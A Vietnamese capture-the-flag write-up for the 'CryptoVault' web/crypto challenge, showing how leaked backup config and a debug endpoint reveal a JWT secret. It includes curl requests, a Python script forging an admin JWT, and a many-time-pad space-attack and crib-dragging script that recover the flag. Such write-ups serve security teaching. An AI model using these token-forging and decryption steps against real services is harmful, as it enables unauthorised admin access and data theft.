

# Days of Future Past — CryptoVault
**Category:** Web / Crypto  
**Difficulty:** Hard (500 pts)

## Overview

Challenge này kết hợp giữa **web exploitation** và **crypto**.

Ý tưởng khai thác gồm 2 phần:

1. **Information disclosure chain**
   - HTML comments làm lộ thông tin nội bộ
   - backup config bị để public
   - debug endpoint để lộ cách sinh JWT secret
   - từ đó forge được JWT `admin`

2. **Many-time pad attack**
   - ứng dụng dùng XOR stream cipher nhưng **reused keystream**
   - lấy được nhiều ciphertext dùng chung key
   - từ đó phá bằng pairwise XOR, space attack và crib dragging

---

## Khảo sát ban đầu

Truy cập trang chủ và xem source HTML.

Ở cuối source có các comment đáng chú ý:

```html
<!-- Powered by CryptoVault API v1 -->
<!-- Internal build: 1.0.3-dev -->
<!-- Debug endpoint available at /api/v1/health for system status -->

<!-- TODO: Remove before production deployment -->
<!-- Developer Notes:
     - API Base: /api/v1/
     - Backup config was moved to /backup/ directory
     - Old JS app bundle still references config paths, clean up later
     - See /static/js/app.js for frontend API integration
-->
```

Từ đây suy ra các path cần kiểm tra:

- `/api/v1/health`
- `/static/js/app.js`
- `/backup/`
- `/backup/config.json.bak`

---

## Step 1: Lộ file cấu hình backup

Truy cập:

```text
/backup/config.json.bak
```

Response:

```json
{
  "api_key": "d3v3l0p3r_acc355_k3y_2024",
  "app_name": "CryptoVault",
  "database": "sqlite:///cryptovault.db",
  "debug_mode": true,
  "internal_endpoints": [
    "/api/v1/debug",
    "/api/v1/health",
    "/api/v1/vault/messages"
  ],
  "jwt_algorithm": "HS256",
  "notes": "Remember to rotate the API key before production deployment!",
  "version": "1.0.3-internal"
}
```

Từ đây lấy được:

- `api_key = d3v3l0p3r_acc355_k3y_2024`
- app name là `CryptoVault`
- debug mode đang bật
- endpoint nội bộ:
  - `/api/v1/debug`
  - `/api/v1/health`
  - `/api/v1/vault/messages`
- JWT dùng `HS256`

Đây là mấu chốt để đi tiếp.

---

## Step 2: Khai thác debug endpoint

Dùng API key gọi debug endpoint:

```bash
curl -i http://chals1.apoorvctf.xyz:8001/api/v1/debug \
  -H "X-API-Key: d3v3l0p3r_acc355_k3y_2024"
```

Response:

```json
{
  "debug_info": {
    "auth_config": {
      "algorithm": "HS256",
      "roles": ["viewer", "editor", "admin"],
      "secret_derivation_hint": "Company name (lowercase) concatenated with founding year",
      "secret_key_hash_sha256": "e53e6e2d3018dce302f876eda97d3852f5f1a81192a5f947ed89da9832ea17b8",
      "token_expiry_hours": 2
    },
    "company_info": {
      "domain": "cryptovault.io",
      "founded": 2026,
      "name": "CryptoVault"
    },
    "framework": "Flask",
    "python_version": "3.11.x",
    "server": "CryptoVault v1.0.3",
    "vault_info": {
      "access_level_required": "admin",
      "encryption_method": "XOR stream cipher",
      "endpoint": "/api/v1/vault/messages",
      "total_encrypted_messages": 15
    },
    "warning": "This debug endpoint should be disabled in production!"
  }
}
```

Từ hint:

```text
Company name (lowercase) concatenated with founding year
```

và dữ kiện:

- company name = `CryptoVault`
- founded = `2026`

suy ra JWT secret:

```text
cryptovault2026
```

---

## Step 3: Giả mạo JWT admin

Vì server dùng `HS256`, khi đã biết secret thì có thể tự ký JWT với payload tùy ý.

Chạy code python này:

```python
import jwt

secret = "cryptovault2026"

payload = {
    "username": "nguyenvana",
    "role": "admin"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

JWT được tạo thành công dù PyJWT cảnh báo secret hơi ngắn.



Sau đó dùng token này gọi endpoint lấy message:

```bash
curl -s http://chals1.apoorvctf.xyz:8001/api/v1/vault/messages \
  -H "Authorization: Bearer <ADMIN_TOKEN>"
```

Response trả về 15 ciphertext, ví dụ rút gọn:

```json
{
  "access_level": "admin",
  "encryption": "XOR stream cipher (military-grade*)",
  "messages": [
    {
      "ciphertext_hex": "05c1534391cdc745386361e7e94b94c2819b45582673c78aba3b27cad5eb3f57bcb33bf1a7c4a16a17f6c02a8bee5a9f45...",
      "id": 1,
      "length": 105,
      "timestamp": "2026-01-01T10:00:00Z"
    },
    {
      "ciphertext_hex": "11db4f5dc5d6c852796068f3ac02828c8c8648083378c791e702ada91eb2210eea52be1b0c5f57854e77605fbffea3f25...",
      "id": 2,
      "length": 100,
      "timestamp": "2026-01-02T11:00:00Z"
    }
  ],
  "total_messages": 15,
  "note": "All messages are encrypted with our proprietary encryption system. Totally unbreakable."
}
```

---

## Step 4: Xác định điểm yếu của phần mật mã

Ứng dụng dùng XOR stream cipher. Nếu mỗi plaintext được mã hóa như:

```text
Ci = Pi XOR K
```

và cùng một keystream `K` bị dùng lại cho nhiều message, thì:

```text
Ci XOR Cj = Pi XOR Pj
```

Đây chính là lỗi **many-time pad**.

Với nhiều plaintext tiếng Anh, có thể khai thác bằng:

- pairwise XOR
- phát hiện vị trí có dấu cách
- suy ra từng byte của keystream
- dùng crib dragging để mở rộng dần plaintext

---

## Step 5: Giải mã từng phần bằng space attack

Lưu JSON response trên vào file `msgs.json`, sau đó dùng script sau để giải từng phần:

```python
import json
import string

with open("msgs.json", "r", encoding="utf-8") as f:
    data = json.load(f)

cts = [bytes.fromhex(m["ciphertext_hex"]) for m in data["messages"]]

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

def is_letter(x):
    return chr(x) in string.ascii_letters

max_len = max(len(c) for c in cts)
space_scores = [[0] * len(c) for c in cts]

for i in range(len(cts)):
    for j in range(i + 1, len(cts)):
        x = xor_bytes(cts[i], cts[j])
        for k, v in enumerate(x):
            if is_letter(v):
                space_scores[i][k] += 1
                space_scores[j][k] += 1

key = [None] * max_len
threshold = 7

for i, c in enumerate(cts):
    for k in range(len(c)):
        if space_scores[i][k] >= threshold:
            key[k] = c[k] ^ 0x20

def decrypt_partial(c, key):
    out = []
    for i, b in enumerate(c):
        if key[i] is None:
            out.append("*")
        else:
            ch = b ^ key[i]
            if 32 <= ch <= 126:
                out.append(chr(ch))
            else:
                out.append("?")
    return "".join(out)

print("=== Partial decrypt ===")
for idx, c in enumerate(cts, 1):
    print(f"{idx:02d}: {decrypt_partial(c, key)}")
```

Chạy script sẽ cho ra partial plaintext của các message.

```text
12: some messages may appear to c\ntain5f?ags w*` onxy |{e will fu*ly decry*t corre*tly
13: the real flag is apoorvctf{3v ry_5y 7_m_h4 *_w3 kn _5} and al* others *re distractio**
14: the flag hidden in this challvnge if `urro*ped vy ~sleading *nformatio*n and d*coys
```

Dòng 13 đã lộ rất rõ format flag.

---

## Step 6: Crib dragging

Từ partial plaintext của message 13:

```text
the real flag is apoorvctf{3v ry_5y 7_m_h4 *_w3 kn _5} and al* others *re distractio**
```

và message 14:

```text
the flag hidden in this challvnge if `urro*ped vy ~sleading *nformatio*n and d*coys
```

có thể suy ra câu hoàn chỉnh hợp lý là:

```text
the real flag is apoorvctf{3v3ry_5y573m_h45_4_w34kn355} and all others are distractions
```

Đây là crib dragging dựa trên:

- phần plaintext đã lộ
- format flag `apoorvctf{...}`
- cấu trúc leetspeak tự nhiên
- ngữ cảnh “all others are distractions”
- message 14 xác nhận có “misleading information” và “decoys”

Có thể áp crib này vào message 13 để suy ra thêm keystream:

```python
def apply_crib(msg_index, offset, guess_text):
    guess = guess_text.encode()
    c = cts[msg_index]
    for i, ch in enumerate(guess):
        if offset + i < len(c):
            key[offset + i] = c[offset + i] ^ ch

apply_crib(
    12,
    0,
    "the real flag is apoorvctf{3v3ry_5y573m_h45_4_w34kn355} and all others are distractions"
)

print("\n=== After crib ===")
for idx, c in enumerate(cts, 1):
    print(f"{idx:02d}: {decrypt_partial(c, key)}")
```

Sau khi áp crib, các message khác giải ra hợp lý hơn, xác nhận plaintext này là đúng.

---

## Flag

```text
apoorvctf{3v3ry_5y573m_h45_4_w34kn355}
```

---

## Kết luận

- Luôn kiểm tra nhận xét HTML, nguồn JS và robots.txt để tìm rò rỉ thông tin
- Các tệp sao lưu còn lại trên máy chủ web là một lỗ hổng cổ điển
- Mã hóa XOR với việc sử dụng lại chìa khóa (bàn phím nhiều lần) có thể phá vỡ một cách tầm thường thông qua kéo cũi
- Phân tích thống kê các cặp văn bản mật mã khai thác cấu trúc của ngôn ngữ tự nhiên